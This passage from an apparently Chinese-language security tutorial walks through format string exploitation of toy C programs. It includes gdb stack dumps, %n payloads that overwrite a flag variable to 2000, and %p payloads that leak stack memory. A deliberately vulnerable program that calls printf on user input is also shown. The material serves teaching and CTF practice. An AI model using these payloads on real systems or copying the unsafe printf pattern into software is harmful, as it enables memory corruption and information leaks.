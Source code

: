 可以看到代码中格式化字符串内容可以控制。要达到flag验证通过的目的，需要借助格式化字符串漏洞，将flag的值改写成2000即可。

首先gdb调试。执行到printf代码调用处` call 0x8048390 <printf@plt>`，看下此时的栈结构：

```
0000| 0xffffd4a0 --> 0xffffd4b8 ("%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x")
0004| 0xffffd4a4 --> 0xffffd4b8 ("%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x")
0008| 0xffffd4a8 --> 0x2c0003f
0012| 0xffffd4ac --> 0x0
0016| 0xffffd4b0 --> 0x0
0020| 0xffffd4b4 --> 0xffffd4b0 --> 0x0
0024| 0xffffd4b8 ("%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x")
0028| 0xffffd4bc ("8x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x,%0x08x")
```

可以看出栈顶esp存储的是格式化字符串地址，0xffffd4b0即是flag变量，0xffffd4b4即是指针p变量，它存储了一个地址指向flag变量。下面的目的是将第5个参数位置改写成2000，以下两种写法都可以达到目的

```
%08x%08x%08x%01976x%n
%02000x%5$n
```

第一种写法，前面4个参数依次被打印，要改第5个参数格式化字符指定为%n。这样构造之后，前4个参数输出字节数刚好是8+8+8+1976=2000，所以第5个参数指针指向的flag变量将被改写成2000。第二种写法更为简便。

执行结果如下：

```
$ ./format
%08x%08x%08x%01976x%n
ffbbe39802c0003f0000..(略)..0000good!!
```

可以看到成功输出good

**实例2**

```
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char tmp[256];
    if (argc == 2) {
        strncpy(tmp, argv[1], sizeof(tmp));
        printf(tmp);
    } else {
        printf("Syntax: %s \n", argv[0]);
    }
    return 0;
}
```

可以通过%p读取栈内存，并且可以通过栈字符串变量在栈上构造指定值，可以看到下面最后的值刚好对应格式化字符串本身的前4个字节，并且可以通过%7$p形式简化格式化字符串：

```
$ ./fs "AAAA%p %p %p %p %p %p %p"
AAAA0xffb61119 0x100 0xffb5ff84 0x8048322 0xf74293d0 0xf741feb0 0x41414141
$ ./fs 'AAAA%7$p
AAAA0x41414141
```
